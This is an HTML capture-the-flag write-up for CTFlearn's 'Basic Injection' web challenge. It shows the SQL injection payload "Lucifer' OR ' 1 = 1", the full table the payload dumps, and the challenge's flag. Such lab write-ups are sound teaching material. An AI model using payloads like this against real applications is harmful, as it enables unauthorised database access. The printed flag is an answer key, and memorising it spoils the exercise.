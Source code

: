 <h2> Basic Injection </h2>

<h4>Problem Statement:</h4>
<p>See if you can leak the whole database using what you know about SQL Injections.</p>

<h4>Step-1:</h4>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it. <br><br>

Step-2: <br><br>
Inspect the input text box. <br><br>
You will find the line given below. <br><br>
<code> Try some names like Hiroki, Noah, Luke </code> <br><br>

Step-3: <br><br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br><br>
I submitted the input <code> Lucifer' OR ' 1 = 1</code>  and got the following output: <br><br>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</pre>
<br>
Step-4: <br><br>
The desired flag <code> CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
